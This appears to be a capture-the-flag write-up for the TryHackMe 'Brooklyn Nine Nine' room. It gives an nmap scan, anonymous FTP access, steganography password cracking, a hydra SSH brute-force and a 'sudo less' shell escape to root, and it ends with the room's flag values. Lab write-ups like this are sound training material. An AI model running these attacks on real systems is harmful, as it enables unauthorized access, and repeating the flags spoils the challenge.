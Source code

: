# [Challenge](https://tryhackme.com/room/brooklynninenine)

- # ENUM
	- ### nmap (`sudo nmap -sV -p- -A -T4 brooklin-nn`)
		- ```21/tcp open  ftp     vsftpd 3.0.3
			| ftp-anon: Anonymous FTP login allowed (FTP code 230)
			|_-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
			| ftp-syst: 
			|   STAT: 
			| FTP server status:
			|      Connected to ::ffff:10.9.1.212
			|      Logged in as ftp
			|      TYPE: ASCII
			|      No session bandwidth limit
			|      Session timeout in seconds is 300
			|      Control connection is plain text
			|      Data connections will be plain text
			|      At session startup, client count was 3
			|      vsFTPd 3.0.3 - secure, fast, stable
			|_End of status
			22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
			| ssh-hostkey: 
			|   2048 16:7f:2f:fe:0f:ba:98:77:7d:6d:3e:b6:25:72:c6:a3 (RSA)
			|   256 2e:3b:61:59:4b:c4:29:b5:e8:58:39:6f:6f:e9:9b:ee (ECDSA)
			|_  256 ab:16:2e:79:20:3c:9b:0a:01:9c:8c:44:26:01:58:04 (ED25519)
			80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
			|_http-title: Site doesn't have a title (text/html).
			|_http-server-header: Apache/2.4.29 (Ubuntu)
			Device type: general purpose
			Running: Linux 4.X
			OS CPE: cpe:/o:linux:linux_kernel:4.15
			OS details: Linux 4.15
			Network Distance: 2 hops
			Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel```

- # EXPLOITATION
	- Log into anonymous `FTP` and get `note_to_jake.txt`:
		- ```From Amy,
			Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine```
	- In the website, there's an image and a comment in the HTML: "`Have you ever heard of steganography?`"
		- Let's run `steegseek` to crack the file: `stegseek -sf brooklyn99.jpg -wl /usr/share/wordlists/rockyou.txt
			- ```Holts Password:
				fluffydog12@ninenine
				
				Enjoy!!```
	- Use `hydra` to crack Jake's password: `hydra -l jake -P /usr/share/wordlists/rockyou.txt ssh://brooklyn-nn`
		- password: `987654321`

- # PRIVILEGE ESCALATION
	- `sudo -l`
		- `less` has root permissions! Let's check on GTFOBins:
		  ```sudo less /etc/profile !/bin/sh```
			- We're root!
			- user.txt: `ee11cbb19052e40b07aac0ca060c23ee`
			- root.txt: `63a9f0ea7bb98050796b649e85481845`